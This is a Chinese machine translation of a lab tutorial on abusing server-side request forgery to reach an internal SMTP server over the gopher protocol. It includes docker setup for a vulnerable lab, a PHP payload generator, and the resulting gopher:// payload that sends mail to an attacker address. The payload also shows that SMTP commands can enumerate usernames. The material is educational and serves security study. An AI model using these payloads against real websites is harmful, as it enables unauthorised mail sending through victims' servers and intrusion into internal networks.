






# 服务器端请求伪造内部 SMTP 访问

> 原文：<https://infosecwriteups.com/server-side-request-forgery-to-internal-smtp-access-dea16fe37ed2?source=collection_archive---------1----------------------->

关于 SSRF 攻击的介绍可以在分离媒体上阅读[初学者指南利用服务器端请求伪造(SSRF)漏洞](/exploiting-server-side-request-forgery-ssrf-vulnerability-faeb7ddf5d0e)

SSRF 可用于与 SMTP 交互，因此攻击者可以通过 SMTP 服务器从易受 SSRF 攻击的网站发送电子邮件。



SSRF 攻击

# 实验室设置

```
git clone [https://github.com/rhamaa/Web-Hacking-Lab.git](https://github.com/rhamaa/Web-Hacking-Lab.git)
cd Web-Hacking-Lab/SSRF_SMTP_LAB
docker build -t ssrf_smtp_lab .
docker run -d --rm -p 8022:80 ssrf_smtp_lab​
```



索引页

*   HTTP 端口被有意转发到 8022，因为主机服务器端口 80 已经有一个服务在运行。

> 该实验室仅使用默认的 sendmail 设置，可能无法向某些电子邮件提供商(如 g Mail)发送(外发邮件)消息。

# SMTP(简单邮件传输协议)101

SMTP 是将邮件从发件人的 SMTP 服务器发送到邮件收件人的 SMTP 服务器的网络协议，默认情况下 SMTP 端口为 25，除此之外 SMTP 还有另一个端口 587 MSA(邮件提交代理)，端口 25 的区别在于端口 587 需要 SMTP *认证*。端口 587 更常用，因为它被认为比端口 25 更安全。

## 基本 SMTP 命令



使用 SMTP 命令的示例

> **琐事:**RCPT TO、VRFY 和 EXPN 命令可用于执行用户名枚举，这在进行 pentesting 时非常有用。

# SMTP 讨厌 HTTP

正如 Orange Tsai 在*Black Hat Asia 2019——SSRF 的新时代——利用趋势编程语言*中的 URL 解析器 *的演讲中所说的那样，“ *SMTP 讨厌 HTTP* ”，因为由于 SMTP 服务器本身的限制，HTTP 无法偷偷进入 SMTP。*

在`sendmail`中有一个 changelog，它说如果包以 *GET* 、 *POST* 、 *CONNECT* 或 *USER* 开始，它将拒绝。

```
8.14.0/8.14.0   2007/01/31  
  ....
  Try to deal with open HTTP proxies that are used to send spam
    by recognizing some commands from them. If the first command
    from the client is GET, POST, CONNECT, or USER, then the
    connection is terminated immediately.
```

将 HTTP 偷偷带到 SMTP 是绝对不可能的，因为它肯定会被拒绝，但可以使用 *Gopher* 和 HTTPS 协议来偷偷带到 SMTP 协议，这样就可以解决这个问题。

> 琐事:HTTPS 不支持像 gopher 这样的多行请求，因此如果你想通过 HTTPS 查询 SMTP，需要一个 CRLF 注入漏洞。

# 通过 Gopher 进行 SMTP 查询

SMTP 查询的 Gopher 语法如下。

`gopher://<Intranet_IP>:25/_<Command_SMTP>`

下面的脚本可以用来自动生成有效负载。

```
<?php
        $commands = array(
                'HELO target.0xff.web.id',
                'MAIL FROM: <[root@target.0xff.web.id](mailto:root@target.0xff.web.id)>',
                'RCPT TO: <[attacker@email.com](mailto:attacker@email.com)>',
                'DATA',
                'Subject: SSRF HERE',
                'SSRF AND SMTP',
                '.'
        );$payload = implode('%0A', $commands); // memisahkan tiap command dengan newlineecho 'gopher://127.0.0.1:25/_' . $payload;
?>
```

> 在<端口>之后的 _ ( **下划线**):/表示 **gophertype** ，所以必须包含它，因为如果不包含该字符，有效载荷将被截断 1 个字符，例如有效载荷是 HelloWorld，如果不包含 _ 符号，有效载荷将变成 elloWorld..

# 攻击演示

生成地鼠负载

```
$ php payload.php
gopher://127.0.0.1:25/_HELO target.0xff.web.id%0AMAIL FROM: <[root@target.0xff.web.id](mailto:root@target.0xff.web.id)>%0ARCPT TO: <[attacker@email.com](mailto:attacker@email.com)>%0ADATA%0ASubject: SSRF HERE%0ASSRF AND SMTP%0A.
```

输入已经生成到目标网站的有效负载。



提交有效负载后的响应

有一封来自目标服务器的邮件。



电子邮件 Masuk

# 参考

*   [http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/](http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/)
*   【https://hackerone.com/reports/115748 号
*   【https://tools.ietf.org/html/rfc4266 
*   [https://server fault . com/questions/776489/what-exact-do-probable-open-proxy-command-post-mean-in-sendmail-logs](https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs)
*   SSRF 的新时代——在流行的编程语言中开发 URL 解析器！

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)